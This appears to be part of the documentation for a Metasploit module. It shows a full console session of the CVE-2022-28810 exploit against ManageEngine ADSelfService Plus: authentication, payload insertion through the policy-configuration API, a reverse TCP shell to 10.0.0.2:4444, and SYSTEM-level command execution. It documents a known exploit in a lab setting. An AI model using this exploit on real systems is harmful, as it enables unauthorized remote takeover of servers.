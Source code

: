 ```
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. The target failed to respond to check. "set ForceExploit true" to override check result.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 1.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50060 ) at 2022-04-19 10:15:20 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


PS C:\ManageEngine\ADSelfService Plus\bin> id
id
id : The term 'id' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ id
+ ~~
    + CategoryInfo          : ObjectNotFound: (id:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
 
PS C:\ManageEngine\ADSelfService Plus\bin> whoami
whoami
nt authority\system
PS C:\ManageEngine\ADSelfService Plus\bin> 
```


[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe